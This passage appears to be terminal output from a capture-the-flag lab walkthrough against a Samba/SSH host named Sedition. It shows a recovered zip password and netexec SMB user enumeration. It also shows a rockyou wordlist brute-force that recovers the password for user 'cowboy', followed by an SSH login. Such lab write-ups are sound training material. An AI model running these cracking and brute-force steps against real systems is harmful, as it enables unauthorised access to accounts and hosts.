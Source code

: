 sebastian        (secretito.zip/password)     

                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ unzip secretito.zip                      
Archive:  secretito.zip
[secretito.zip] password password: 
 extracting: password                
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ ls
fullscan.txt  password  scan.txt  secretito.zip  zip_hash.txt
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ cat password    
elbunkermolagollon123
                                                                                                                   
                                                                      

                                                                                                                   
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ netexec  smb 10.0.250.6 -u 'sebastian' -p 'elbunkermolagollon123' --users

SMB         10.0.250.6      445    SEDITION         [*] Unix - Samba (name:SEDITION) (domain:SEDITION) (signing:False) (SMBv1:False)                                                                                                  
SMB         10.0.250.6      445    SEDITION         [+] SEDITION\sebastian:elbunkermolagollon123 (Guest)
SMB         10.0.250.6      445    SEDITION         -Username-                    -Last PW Set-       -BadPW- -Description-                                                                                                           
SMB         10.0.250.6      445    SEDITION         cowboy                        2025-07-06 17:11:39 0        
SMB         10.0.250.6      445    SEDITION         [*] Enumerated 1 local users: SEDITION


                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ netexec  smb 10.0.250.6 -u 'cowboy' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep '+'
SMB                      10.0.250.6      445    SEDITION         [+] SEDITION\cowboy:sebastian 
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ netexec  smb 10.0.250.6 -u 'cowboy' -p 'sebastian'                                                     
SMB         10.0.250.6      445    SEDITION         [*] Unix - Samba (name:SEDITION) (domain:SEDITION) (signing:False) (SMBv1:False)                                                                                                  
SMB         10.0.250.6      445    SEDITION         [+] SEDITION\cowboy:sebastian 


                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ ssh cowboy@10.0.250.6 -p 65535

cowboy@10.0.250.6's password: 
Linux Sedition 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul  6 20:00:56 2025 from 192.168.0.17
cowboy@Sedition:~$ ls
cowboy@Sedition:~$ pwd
/home/cowboy
